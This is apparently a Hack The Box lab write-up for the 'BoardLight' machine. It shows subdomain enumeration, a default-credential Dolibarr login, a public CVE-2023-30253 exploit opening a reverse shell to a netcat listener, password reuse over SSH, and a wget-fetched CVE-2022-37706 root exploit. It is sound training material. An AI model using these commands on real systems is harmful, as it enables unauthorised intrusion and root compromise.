




# HTB : BoardLight



| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/BoardLight) |
| Difficulty | Easy |
| OS | Linux |
| Author | ByteFragment |
| Date | November 4th 2026 |


## Enumeration

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sCV -T4 -p- 10.129.231.37 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)  
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)  
|\_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|\_http-server-header: Apache/2.4.41 (Ubuntu)  
|\_http-title: Site doesn't have a title (text/html; charset=UTF-8).  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```

From the nmap results, we can see that the target machine is running an `ssh` server on port `22`, and a `http server` on port `80` running `Apache/2.4.41`. Let's add the target IP as well as `boardlight.htb`  to our /etc/hosts file as so:

```
10.129.231.37   board.htb
```

and visit the page using the Burp Suite browser.

### Web Recon

Visiting the URL we see it is a page for a `cybersecurity consulting firm`:



The contact form does not actually do anything when the submit button is hit so we will have to continue enumerating as nothing immediately jumps out as exploitable.

Let's use the `FFUF` tool to do some subdomain enumeration:

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://board.htb/ -H "Host: FUZZ.board.htb" -fs 15949  
  
  
   
  
        /'\_\_\_\\  /'\_\_\_\\           /'\_\_\_\\         
       /\\ \\\_\_/ /\\ \\\_\_/  \_\_  \_\_  /\\ \\\_\_/         
       \\ \\ ,\_\_\\\\ \\ ,\_\_\\/\\ \\/\\ \\ \\ \\ ,\_\_\\        
        \\ \\ \\\_/ \\ \\ \\\_/\\ \\ \\\_\\ \\ \\ \\ \\\_/        
         \\ \\\_\\   \\ \\\_\\  \\ \\\_\_\_\_/  \\ \\\_\\         
          \\/\_/    \\/\_/   \\/\_\_\_/    \\/\_/         
  
       v2.3.0  
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_  
  
 :: Method           : GET  
 :: URL              : http://board.htb/  
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt  
 :: Header           : Host: FUZZ.board.htb  
 :: Follow redirects : false  
 :: Calibration      : false  
 :: Timeout          : 10  
 :: Threads          : 40  
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500  
 :: Filter           : Response size: 15949  
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_  
  
crm                     \[Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 482ms\]
```

From the results we can see that there is a single subdomain match that was present in the wordlist : `crm`.

## Foothold

Let's add `crm.board.htb` to our /etc/hosts file and see what the site contains:



The site contains a login page for `Dolibarr` a Open Source ERP & CRM, specifically running version `17.0.0`.

Searching online we find that this version contains an `Authenticated Remote Code Execution` vulnerability as described in [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/cve-2023-30253).

Given that this vulnerability requires us to be authenticated we need to find some valid credentials. Looking on dolibarr forums the default credentials are either `admin:changeme` or `admin:admin`.

Trying both we find that the `admin:admin` credentials are valid, giving us access to the dashboard!

Now that we have a set of valid credentials we can try and exploit the RCE vulnerability. GitHub user [nikn0laty](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) has a PoC that we can use. But before we run the PoC we need to set up a listener to catch the reverse shell connection:

```
nc -lvnp 1234
```

Then we can run the exploit:

```
python3 Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/exploit.py http://crm.board.htb admin admin 10.10.15.249 1234  
\[\*\] Trying authentication...  
\[\*\*\] Login: admin  
\[\*\*\] Password: admin  
\[\*\] Trying created site...  
\[\*\] Trying created page...  
\[\*\] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

Checking back in with out listner we find we have a reverse shell connection as the user `www-data` :

```
nc -lvnp 1234                            
listening on \[any\] 1234 ...  
connect to \[10.10.15.249\] from (UNKNOWN) \[10.129.231.37\] 42224  
bash: cannot set terminal process group (842): Inappropriate ioctl for device  
bash: no job control in this shell  
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami  
whoami  
www-data  
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ hostname  
hostname  
boardlight  
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```

## Lateral Movement

Looking in the `/home` directory we can see a single user `larissa` who’s home directory we do not have access to. We will need to move laterally in order to gain access to `larissa`'s account and the user flag.

Looking at the Dolibarr documentation we see a reference to the main document root being `/home/www/dolibarr/htdocs`. In our case the dolibarr is replaced with `crm.board.htb` it points us in the right direction of looking in the `htdocs` directory.

There are quite a few files and directories in the htdocs folder but the `conf` directory stands out as configuration files often contain elements of interest such as credentials:

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls -al  
ls -al  
total 56  
drwxr-xr-x  2 www-data www-data  4096 May 17  2024 .  
drwxr-xr-x 79 www-data www-data  4096 Mar  4  2023 ..  
-rw-r--r--  1 www-data www-data    31 Mar  4  2023 .htaccess  
-rw-r--r--  1 www-data www-data  1736 May 17  2024 conf.php  
-rw-r--r--  1 www-data www-data 16394 Mar  4  2023 conf.php.example  
-r--------  1 www-data www-data 16394 May 13  2024 conf.php.old
```

The `conf.php` file contains `mysql` credentials! :

```
$dolibarr\_main\_db\_host='localhost';  
$dolibarr\_main\_db\_port='3306';  
$dolibarr\_main\_db\_name='dolibarr';  
$dolibarr\_main\_db\_prefix='llx\_';  
$dolibarr\_main\_db\_user='dolibarrowner';  
$dolibarr\_main\_db\_pass='\<REDACTED\>';
```

After repeatedly failing to authenticate to the db using these credentials I decided to try and ssh into the target machine using larissa as the username and this newly found db password:

```
ssh larissa@board.htb   
\*\* WARNING: connection is not using a post-quantum key exchange algorithm.  
\*\* This session may be vulnerable to "store now, decrypt later" attacks.  
\*\* The server may need to be upgraded. See https://openssh.com/pq.html  
larissa@board.htb's password:   
Last login: Wed Nov  4 19:45:58 2026 from 10.10.15.249  
larissa@boardlight:~$ whoami  
larissa  
larissa@boardlight:~$ hostname  
boardlight  
larissa@boardlight:~$ 
```

The user.txt flag can be found in larissa's home directory.

## Privilege Escalation

Now that we have obtained user level access we can begin attempting to escalate our privileges.

Let's begin by enumerating the system with `linPEAS` by transferring the linpeas.sh script to the target machine and running it.

Under the `Files with Interesting Permissions` section we see something interesting:

```
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                 
                      ╚════════════════════════════════════╝                                                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms (T1548.001)  
╚ https://book.hacktricks.wiki/en/linux-hardening/interesting-files-permissions/suid-sgid-and-acl-triage.html\#enumerate-privileged-executables     
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                          
-rwsr-sr-x 1 root root 15K Apr  8  2024 /usr/lib/xorg/Xorg.wrap  
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86\_64-linux-gnu/enlightenment/utils/enlightenment\_sys  ---\>  Before\_0.25.4\_(CVE-2022-37706)  
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86\_64-linux-gnu/enlightenment/utils/enlightenment\_ckpasswd  ---\>  Before\_0.25.4\_(CVE-2022-37706)                                                                                                                                                  
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86\_64-linux-gnu/enlightenment/utils/enlightenment\_backlight  ---\>  Before\_0.25.4\_(CVE-2022-37706)                                                                                                                                                 
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86\_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86\_64-0.23.1/freqset (Unknown SUID binary!)
```

Here we find references to `enlightenment` which is a linux desktop environment / window manager. linePEAS notes that enlightenment may be vulnerable to [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/cve-2022-37706) which is a linux priv esc vulnerability that effects versions before `0.25.4` and we can see on the last line that the target machine is running `0.23.1`.

GitHub user [MaherAzzouzi](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main) provides us with a PoC exploit that we can use after transferring the file to the machine and giving it execution permissions:

```
┌──(kali㉿kali)-\[~/labs\_htb/BoardLight\]  
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

larissa@boardlight:~/Desktop$ wget http://10.10.15.249/exploit.sh  
--2026-11-04 20:55:25--  http://10.10.15.249/exploit.sh  
Connecting to 10.10.15.249:80... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 709 \[application/x-sh\]  
Saving to: ‘exploit.sh’  
  
exploit.sh                           100%\[===================================================================\>\]     709  --.-KB/s    in 0s        
  
2026-11-04 20:55:25 (50.6 MB/s) - ‘exploit.sh’ saved \[709/709\]  
  
larissa@boardlight:~/Desktop$ chmod +x exploit.sh   
larissa@boardlight:~/Desktop$ ./exploit.sh   
CVE-2022-37706  
\[\*\] Trying to find the vulnerable SUID file...  
\[\*\] This may take few seconds...  
\[+\] Vulnerable SUID binary found!  
\[+\] Trying to pop a root shell!  
\[+\] Enjoy the root shell :)  
mount: /dev/../tmp/: can't find in /etc/fstab.  
\# id  
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

The exploit was successful and we not have a working shell as root! The root flag can be found in /root thus solving the challenge:



